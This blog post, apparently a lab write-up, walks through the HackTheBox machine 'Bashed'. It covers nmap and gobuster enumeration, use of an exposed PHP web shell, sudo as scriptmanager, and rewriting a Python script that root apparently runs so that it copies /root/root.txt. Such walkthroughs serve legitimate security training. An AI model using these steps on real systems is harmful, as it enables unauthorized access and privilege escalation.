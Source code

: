 ```yaml
---
layout: post
title: HackTheBox Bashed (10.10.10.68) Writeup
description: >
  Hackthebox Bashed Writeup
image: /assets/img/bashed.png
noindex: false
---
```


<center><h3>Summary</h3></center>

- Do some simple HTTP enumeration to find a custom php script
- Use the <b>phpbash.php</b> script grab user and root flag

First I start with an nmap scan
``` 
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-16 15:48 EDT
Nmap scan report for 10.10.10.68
Host is up (0.053s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.28 seconds
```
<br>
Only one port this time. Navigating to the webpage I see a nice custom webpage. A quick look aorund does reveal anything obvious

![home.png](../../resources/babe181301b2462383c3d75b7bcb6c3b.png)

Running a gobuster reveals some directories.
```bash
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/fonts (Status: 301)
```
<br>
Quite a few options but the one that is interesting to us is the <b>/dev</b> directory. Navigating to the directory I will see two files. <b>phpbash.min.php</b> and <b>phpbash.php</b> 

![dev.png](../../resources/fd190a94f4c944a6a1ff0e47e4d8bb77.png)

Doesnt matter which file you choose, both of them give you a custom bash shell written in php.

At this point you can grab the user flag located in <b>/user/arrexel</b>.

Now time to get the root flag. Running a quick <b>sudo -l</b> I see that the I can run sudo asa the user <b>scriptmanager</b>.

```bash
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
<br>
Doing some basic enumeration around the box I noticed a strange directory name <b>/scripts</b> which is not there by default. A quick permissions check reveals that the directory is indeed owned by the user <b>scriptmanager</b>. Currently as the user <b>www-data</b> I can see there are two files in there but I are unable to read them. This is where I will use scriptmanagers sudo priviledges

```python
www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.txt
testing 123!
```
Looking at both the files I can come to the conclusion that there is probably a process executing <b>test.py</b> and sending the output to <b>test.txt</b>.

What I are going to do is edit the <b>test.py</b> script to copy the contents of the root.txt file into the test.txt so I can then read it. This can be achieved with the short script below
```python
f = open("test.txt", "w")
r = open("/root/root.txt", "r")
re = r.readline()
f.write(re)
```
Now I wait for the new file to execute and if you did everything correctly than you should be able to get the root flag by reading the <b>/scripts/test.txt</b> file.
<br><br><br>
